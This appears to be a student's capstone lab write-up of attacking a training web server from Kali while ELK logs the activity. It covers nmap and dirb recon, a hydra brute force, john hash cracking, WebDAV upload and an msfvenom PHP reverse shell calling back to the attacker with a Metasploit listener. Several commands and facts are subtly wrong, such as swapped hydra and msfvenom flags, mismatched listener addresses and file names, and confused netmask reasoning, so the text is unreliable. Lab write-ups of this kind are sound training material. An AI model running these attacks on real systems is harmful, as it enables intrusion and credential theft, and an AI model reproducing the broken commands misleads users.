

## Network Architechture
---

There are three principal  Machines in the network

1) Kali VM - The Attacker machine

2) Capstone VM - The Victim machine

3) ELK VM - For monitoring and generating logs



## Stage 1: Configuring the Capston VM so it can send the attack logs to ELK stack
---

- Setting up **filebeat** ships log data (simplifies, parsing, visualization of log formats) from server to ELK Stack or monitoring VM

- `filebeat modules enable apache`
- `filebeat setup`



- Setting up **metricbeat** ships metrics data from server (e-g MongoDB, MYSQL, Apache) to ELK Stack or monitoring VM

- `metricbeat modules enable apache`
- `metricbeat setup`



- Setting up **packetbeat** integrates Elasticsearch and Kibana to provide realtime analysis 

- `packetbeat setup`



- Restarting services after initial installation

- `systemctl restart filebeat`
- `systemctl restart metricbeat`
- `systemctl restart packetbeat`



## Stage 2: Attacking the Capsone VM using the Kali VM
---

- Stages of Engagement: The commands below are run on the Kali Linux. In this case the Hacker's machine (Kali Linux) is already part of the network. That is why there is no need to perform OSNIT/Recon-NG in this project as we are not targeting any external network or website

a) **Information Gathering**: Obtaining info regarding the network, e-g ip addresses etc

- `ifconfig` to discover the network ip address and range



- `netdiscover` to determine the active hosts on the network- The actual command is below

- `netdiscover -r 192.168.1.255/16`



- Now this information is very revealing. Based on the infomration so far we can deduce:

- The network Ip range is `192.168.1.0/16`. This is because the net mask is `255.255.255.0` Which indicates that only the last 8 bits are variable for the assigned Ip ranges.

- In addition 3 active hosts are noted. Note that `ifconfig` earlier revalied the ip address of the Kali VM to be `192.168.1.8` which is not listed as the active host after running `netdiscover`

- Now the question is which of these is the Capstone (the companiy's webserver I am hacking). 

- If I type the ip address `192.168.1.105`, it reveals a webpage to the company's server, so this IP is the Capstone VM. See below



- There is no formal index.html page, and the companies directories are open -this is a significant vulnerability

- Navigating to the folder directories makes it even worse and keeps pointing at some secret_folder



- Typing `192.168.1.105/company_folders/secret_folder` as suggested, exposes further infomration about a potential person who maybe one of the admins. 



- We now have a potential username `ashton` who's password we can attempt to later crack by a brute force attack 

- So far I am able to gather basic details about the network and now have a clue about a potential admin username

- Clicking these directory links further reveals that the CEO of the company is Ryan, Hannah is the VP and Ashton is the manager



b) **Scanning and Enumeration**

- Checking the hosts again with ping: `nmap -pn 192.168.1.255/16`

- Scanning for open ports and Version: `nmap -sV 192.168.1.1-105`




- You can note that on the Capstone VM (ip:`192.168.1.105`) there is one open `port:80` which is a significant vulnerability I can exploit. We also learn about the `Apache server version 2.4.29` and the `OS of Linux` 

- Checking for OS: `nmap -sS -A 192.168.1.105`



- Notice the important information about directories and some insights regarding the text files that can provide further information

- We can download these files directly 
- `wget 192.168.1.105/meet_our_team/ashton.txt | cat ashton.txt`





- Another option is also to run an nmap script that can reveal hidden files and directories : `nmap --script http-enum -p80 192.168.1.105`. Here `http-enum` is an NSE (Nmap scripting engine) script provides insights regarding the types of servers and applications in use within the subnet. 

- An additional alternative is also `dirb` which which uses a wordlist of possible directories 

`dirb http://192.168.1.105/ /usr/share/wordlists/dirb/common.txt`

c) **Exploitation**

- Using hydra to brute force ashton's pasword. username: `ashton`

- Unziping the worlist to try to bruteforce attack. Note that in kali linux there is a pre-stored wordlist **rockyou.txt** in  `/usr/share/wordlists` if it is zipped then it must be unzipped before it can be used after unzipping `gunzip /usr/share/wordlists/rockyou.txt.gz`. In this case it does not appear that the file is zipped. 



- Hydra brute force action: `hydra -l ashton -p /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/` Here http-get will go to the website which is the ip address that we have already provided and will navigate to the path like: `http-get 192.168.1.105/company_folders/secret_folder/`



- On accessing the secret folder, a new username noted: ryan, need to crack its hash that is also provided in the secret folder



- Now that Ashton's password is cracked; `username`:**ashton** and  `password`:**leopoldo**, I should now be able to navigate to the secret folder: `



- Reviewing the text file titled "connect_to_corp" reveals the instructions to connect and provided the CEO Ryan's hashed password



- Crack Ryan's password hash with john the ripper: `john --format=raw-md5 ryans_hash`



- With this new information, now I have a `username`: **ryan** and a `password`: **linux4u** to access company's file sharing whose path was also revealed in the instructions: `dav://172.16.84.205/webdav`. I initially tried connecting to it multiple times, but failed. Then I noticed that there is a mistake in the "connect_to_corp" instructions file. Seems that AZURE has not updated. I guessed the correct path to be `dav://192.168.1.105/webdav`. Because from the scanning and enumeration stage I know that the IP address of the capstone webserver is `192.168.1.105` and not 172.16.84.205

- You can connect file sharing on a remote server by clicking on the folder icon from the apps panel in linux, selecting **`Other Locations`** and then typing in the address **`dav://192.168.1.105/webdav`** where it says "Connect to Server"





- Now that I have acess to file sharing at Capsone VM through my Kali VM, you can hack Capstone by running a malacious script (if you may).  

- To do this, on my Kali VM I can use `msfvenom` to create a reverse shell payload script in Kali Linux (hacker's VM). This payload when run on the victim machine (capstone VM) can extablish a retrograde connection with Kali linux on the Hacker's machine (Kali VM) and open up session and a terminal to execute additional code. This is where the Exploitation phase ends and the post-exploitation starts. 

- `msfvenom -P php/meterpreter/reverse_tcp lhost=192.168.1.8 lport=666 -f raw > open-shell.php`
- `-P` specifies payload, must be Capital letter P, `-f` specifies the file type
- `php/meterpreter/reverse_tcp` This will format the payload in php and code it such that its transferred to the victim in stages and not all at once (wich is more likely to fail becuse of large size)- In this particular setting however its not very relevent, because I am going to directly paste it. 
- `lhost` and `lport` specify the hacker's ip address and port which this payload will instruct the victim's mchine to connect to
- `open-shell.php` is the file name. 



- Pasting the `open-shell.php` script file inside the Capsone VM file sharing and running it

- Once `open-shell.php` is generated then you can copy it into `dav://192.168.1.105/webdav/` from the browser - this can be done from Kali Linux as you are now already connected to the victim's machine 



- Now in Kali VM run **Metasploit** and run the following commands to prepare for listening and being ready to accept any retrograde connection coming from Capstone VM(victim). 

- `msfconsole`
- `set payload php/meterpreter/reverse_tcp`
- `set lhost 192.168.1.90` notice that there is no "=" between lhost and ip
- `set lport 666`
- `show options`
- `run`



- Run the malacious shell script on the Victim (Capstone) VM, you can actually run this from Kali linux by typing ` 192.168.1.105/webdav/shell.php` into the browser - this will run the script on the Capstone server

- This will open up a meterpreter shell



d) **Post-exploitation**

- Once a Meterpreter shell is open you can run the following commands like `getuid`, `getwd`, `sysinfo` to gather dditional information about the hacked system. If you type `shell` the terminal will change to shell and then you can run additional commands such as finding files etc. 

- Finding  the flag with meterpreter

- `find -name flag.txt 2>/dev/null` Here `2>dev/null` is instructing to ignore any error messages while searching



e) **Reporting Vulnerabilities**

## Resources

- [Red Team Vs Blue Team](https://securitytrails.com/blog/cybersecurity-red-blue-team)
- [What is Vulnerability Scanning](https://www.esecurityplanet.com/network-security/vulnerability-scanning.html)
- [What is a reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/)
- [Kibana: Discover Documentation](https://www.elastic.co/guide/en/kibana/7.7/discover.html)
- [Kibana: Visualize Documentation](https://www.elastic.co/guide/en/kibana/7.7/visualize.html)
- [Elasticsearch Reference Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/index.html)

